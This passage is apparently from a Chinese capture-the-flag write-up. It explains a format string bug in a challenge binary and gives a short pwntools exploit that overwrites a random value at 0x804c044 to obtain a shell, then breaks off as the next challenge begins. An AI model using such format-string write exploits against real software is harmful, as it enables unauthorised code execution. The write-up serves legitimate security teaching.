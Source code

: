 该程序获取一个随机数，读入到`0x804c044`上，随后两次读入用户输入并判断第二次输入与随机数是否相同，相同则可以获得shell

我们可以发现存在**格式化字符串漏洞**，可以进行**任意地址读与任意地址写**，故考虑将`0x804c044`地址上的随机数覆写为我们想要的值，随后直接输入我们覆写的值即可getshell

同时我们简单的跑一下这个程序就可以知道格式字符串是位于栈上的第10个参数（“aaaa” == 0x61616161）

![image.png](img/9544e2b77d52c2b7098a032a0a8d3eee.png)

我们可以使用pwntools中的`fmtstr_payload()`来比较方便地构造能够进行任意地址写的payload

> 具体用法可以百度，这里就不再摘抄一遍了

故构造exp如下：

```
from pwn import *

payload = fmtstr_payload(10,{0x804c044:0x1})

p = process('./pwn')
p.sendline(payload)
p.sendline(str(0x1))
p.interactive() 
```

![image.png](img/47e984685efa40a6d2ee27b2b91309b4.png)

# 0x00B.[BJDCTF 2nd]r2t3 - integer overflow + ret2text

惯例的`checksec`，发现只开了栈不可执行保护

![](img/2f77124e170a35d920b560e80723c846.png)
